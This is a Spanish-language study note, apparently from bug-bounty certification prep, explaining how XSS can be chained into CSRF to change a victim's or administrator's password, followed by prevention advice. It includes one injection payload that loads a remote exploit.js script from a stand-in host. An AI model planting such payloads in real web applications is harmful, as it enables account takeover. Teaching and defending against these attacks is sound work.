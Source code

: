 ```yaml
---
layout: post
title: CBBH - Cross-Site Request Forgery (CSRF)
tags: web CSRF burpsuite bugbounty CBBH PoC
categories: vulnerabilities 
---
```


Los ataques CSRF pueden utilizar vulnerabilidades XSS para realizar ciertas consultas y llamadas API a una aplicación web en la que la víctima está actualmente autenticada. Esto permitiría al atacante realizar acciones como usuario autenticado. También puede utilizar otras vulnerabilidades para realizar las mismas funciones, como utilizar parámetros HTTP para ataques.

Un ataque CSRF común para obtener acceso con mayores privilegios a una aplicación web es crear un payload JavaScript que cambie automáticamente la contraseña de la víctima al valor establecido por el atacante. Una vez que la víctima ve el payload en la página vulnerable (por ejemplo, un comentario malicioso que contiene el payload JavaScript CSRF), el cídigo JavaScript se ejecutará automáticamente. Utilizaría la sesión iniciada de la víctima para cambiar su contraseña. Una vez hecho esto, el atacante puede iniciar sesión en la cuenta de la víctima y controlarla.

CSRF También se puede aprovechar para atacar a los administradores y obtener acceso a sus cuentas. Los administradores generalmente tienen acceso a funciones confidenciales, que a veces pueden usarse para atacar y obtener control sobre el servidor back-end (dependiendo de la funcionalidad proporcionada a los administradores dentro de una aplicación web determinada). Siguiendo este ejemplo, en lugar de usar código JavaScript que devolvería la cookie de sesión, cargaríamos un archivo remoto .js( JavaScript), de la siguiente manera:

~~~ html
"><script src=//www.example.com/exploit.js></script>
~~~

El archivo exploit.js contendría el código JavaScript malicioso que cambia la contraseña del usuario. Desarrollar exploit.js en este caso requiere conocimiento del procedimiento de cambio de contraseña de esta aplicación web y APIs. El atacante necesitaría crear un código JavaScript que replicara la funcionalidad deseada y la llevara a cabo automáticamente (es decir, un código JavaScript que cambie nuestra contraseña para esta aplicación web específica).

## Prenvención

Aunque debe haber medidas en el back-end para detectar y filtrar la entrada del usuario, también es siempre importante filtrar y desinfectar la entrada del usuario en el front-end antes de que llegue al back-end, y especialmente si este código puede mostrarse directamente en el lado del cliente sin comunicar con la parte trasera. Se deben aplicar dos controles principales al aceptar la entrada del usuario:

| Tipo | Descripción |
|------|-------------|
| Sanitización | Eliminar caracteres especiales y no estándar de la entrada del usuario antes de mostrarla o almacenarla. |
| Validación | Garantizar que la entrada del usuario enviada coincida con el formato esperado (es decir, el correo electrónico enviado coincida con el formato de correo electrónico) |

Además, también es importante desinfectar la salida mostrada y borrar cualquier carácter especial o no estándar. En caso de que un atacante logre eludir los filtros de validación y desinfección del front-end y back-end, aún así no causará ningún daño en el front-end.

Una vez que desinfectemos y/o validemos la entrada del usuario y la salida mostrada, deberíamos poder prevenir ataques como HTML Injection, XSS o CSRF. Otra solución sería implementar un firewall de aplicaciones web (WAF) , que debería ayudar a evitar intentos de inyección automáticamente. Sin embargo, cabe señalar que las soluciones WAF pueden potencialmente evitarse, por lo que los desarrolladores deben seguir las mejores prácticas de codificación y no simplemente confiar en un dispositivo para detectar/bloquear ataques.

En cuanto a CSRF, muchos navegadores modernos tienen medidas anti-CSRF integradas, que impiden la ejecución automática de códgo JavaScript. Además, muchas aplicaciones web modernas tienen medidas anti-CSRF, incluidos ciertos encabezados e indicadores HTTP que pueden evitar solicitudes automatizadas (es decir, anti-CSRF token o http-only/ X-XSS-Protection). Se pueden tomar otras medidas desde un nivel funcional, como exigir al usuario que ingrese su contraseña antes de cambiarla. Muchas de estas medidas de seguridad se pueden eludir y, por lo tanto, este tipo de vulnerabilidades aún pueden representar una amenaza importante para los usuarios de una aplicación web. Es por eso que estas precauciones sólo deben considerarse como una medida secundaria, y los desarrolladores siempre deben asegurarse de que su código no sea vulnerable a ninguno de estos ataques.